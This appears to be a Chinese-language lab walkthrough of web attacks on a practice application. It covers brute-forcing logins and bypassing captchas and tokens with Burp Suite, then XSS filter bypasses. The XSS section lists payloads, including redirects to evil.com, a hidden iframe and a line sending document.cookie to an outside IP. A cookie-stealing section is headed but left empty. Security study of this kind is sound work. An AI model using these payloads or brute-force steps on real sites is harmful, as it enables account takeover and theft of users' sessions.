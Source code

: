 ```yaml
---
typora-copy-images-to: 图片
typora-root-url: ./
---
```


# 一、暴力破解

Burte Force（暴力破解）概述

​             “暴力破解”是一攻击具手段，在web攻击中，一般会使用这种手段对应用系统的认证信息进行获取。其过程就是使用大量的认证信息在认证接口进行尝试登录，直到得到正确的结果。为了提高效率，暴力破解一般会使用带有字典的工具来进行自动化操作。         

​             理论上来说，大多数系统都是可以被暴力破解的，只要攻击者有足够强大的计算能力和时间，所以断定一个系统是否存在暴力破解漏洞，其条件也不是绝对的。我们说一个web应用系统存在暴力破解漏洞，一般是指该web应用系统没有采用或者采用了比较弱的认证安全策略，导致其被暴力破解的“可能性”变的比较高。这里的认证安全策略, 包括：

​              1.是否要求用户设置复杂的密码；
​             2.是否每次认证都使用安全的验证码（想想你买火车票时输的验证码～）或者手机otp；
​             3.是否对尝试登录的行为进行判断和限制（如：连续5次错误登录，进行账号锁定或IP地址锁定等）；
​             4.是否采用了双因素认证；
​             ...等等。

## 1、基于表单的暴力破解

a、提交数据

![1568213840918](/图片/1568213840918.png)

b、抓包进行爆破

![1568215095203](/图片/1568215095203.png)

![1568215114930](/图片/1568215114930.png)

c、看响应数据包长度

![1568215188316](/图片/1568215188316.png)

d、爆出密码为123456

![1568215234863](/图片/1568215234863.png)

## 2、验证码绕过(on server)

a、bursuite拦截发送到repeater,多次发送请求发现验证码可以重复使用。

![1568618135365](/图片/1568618135365.png)

b、使用发送到intruder添加paload进行爆破

![1568618273695](/图片/1568618273695.png)

![1568618313203](/图片/1568618313203.png)

3、爆破成功

![1568618412054](/图片/1568618412054.png)

## 3、验证码绕过(on client)

前端绕过是最不可靠的，使用bursuit抓包可以随意修改请求数据，绕过前端限制。

a、直接抓包，有了这个请求包后，验证码是可以不需要的

![1568618656858](/图片/1568618656858.png)

b、扔到intruder爆破：

![1568619024697](/图片/1568619024697.png)

![1568619012983](/图片/1568619012983.png)

c、爆出账户密码

![1568619093940](/图片/1568619093940.png)

## 4、token防爆破?

每次请求后token都是会改变的，这是否就意味着不可爆破？实际上我们是可以获取token的，把token加进paload进行密码爆破。

a、首先抓包扔到intruder，配置positions

![1568624869473](/图片/1568624869473.png)

b、点击Options,设置线程为1

![1568625168055](/图片/1568625168055.png)

添加Grep-Extract

![1568625201767](/图片/1568625201767.png)

指定token并复制下来，点击ok保存

![1568625270482](/图片/1568625270482.png)

![1568625405872](/图片/1568625405872.png)

redirections设置为always

![1568625419009](/图片/1568625419009.png)

c、接下来设置payloads

![1568625531546](/图片/1568625531546.png)

payload2为token,b把之前复制的token填入initial payload里面

![1568625574535](/图片/1568625574535.png)

d、开始爆破，爆破成功

![1568625717579](/图片/1568625717579.png)

# 二、Cross-Site Scripting

​		Cross-Site Scripting 简称为“CSS”，为避免与前端叠成样式表的缩写"CSS"冲突，故又称XSS。一般XSS可以分为如下几种常见类型：
​         1.反射性XSS;
​          2.存储型XSS;
​          3.DOM型XSS;
​          XSS漏洞一直被评估为web漏洞中危害较大的漏洞，在OWASP TOP10的排名中一直属于前三的江湖地位。XSS是一种发生在前端浏览器端的漏洞，所以其危害的对象也是前端用户。形成XSS漏洞的主要原因是程序对输入和输出没有做合适的处理，导致“精心构造”的字符输出在前端时被浏览器当作有效代码解析执行从而产生危害。
​            因此在XSS漏洞的防范上，一般会采用“对输入进行过滤”和“输出进行转义”的方式进行处理:
​            输入过滤：对输入进行过滤，不允许可能导致XSS攻击的字符输入;
​            输出转义：根据输出点的位置对输出到前端的内容进行适当转义。
​          对于过滤，我们会通过各种方法去绕过:

​           前端过滤绕过：抓包拦截改包

​           大小写绕过：<ScipT>alert(/xss/)</SCipt>

​            双写绕过：<scr<script>ipt>alert(/xss/)</s</script>cript>

​            注释干扰：<sc<!--content-->ript>alert(/xss/)</scr<!--content-->ipt>

​            编码绕过：依据前端编码解码机制

## 1、反射型xss(get)

### 1）漏洞验证：

页面只有一个输入框并设置了长度限制，随便输入一个字符，并在页面上返回字符，在message参数直接提交payload:<script>alert(1)</script>。

![1568704670690](/图片/1568704670690.png)

其他一些有趣的payload:

<a href=""  onclick=alert("xss")>type<a>
<img src='' onerror=alert("xss")>

<script>window.location='http://1.1.1.1'</script＞
<script>document.location.href="http://www.evil.com"</script>
<iframe src="http://1.1.1.1/victim" height = "0" width = "0"></iframe>
<srcipt>new.Image.src="192.168.1.104/c.php?output="+document.cookie</script>
<script>document.body.innerHTML="<div stytle=visibility:visible;><h1>THIS WEBSITE IS UNDER ATTACK</h1>"</script>

### 2)代码分析

服务器获取用户通过get提交过来的message,没有过滤就通过字符串拼接赋值给html，并且没有做任何编码处理就打印出来。

![1568717795251](/图片/1568717795251.png)

![1568717963826](/图片/1568717963826.png)

### 3）漏洞利用

#### a、窃取cookie



## 2、反射性xss(post)

